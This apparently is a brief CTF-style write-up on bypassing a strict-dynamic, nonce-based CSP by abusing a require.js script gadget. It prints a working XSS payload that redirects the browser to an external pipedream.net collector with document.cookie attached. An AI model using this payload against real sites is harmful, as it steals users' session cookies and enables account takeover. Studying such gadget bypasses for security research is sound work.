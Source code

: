 The page has strict-dynamic and a nonce. 
It loads multiple js libraries which have gadgets we can use to perform XSS.

The following gadget from require.js works:
```html
<script data-main="data:1, window.location.href='https://enh7hgfvq4ko6.x.pipedream.net?' + document.cookie" src='require.js'></script>
```

Bootstrap and jQuery probably don't work because they are loaded at the head, so they execute before the html is injected.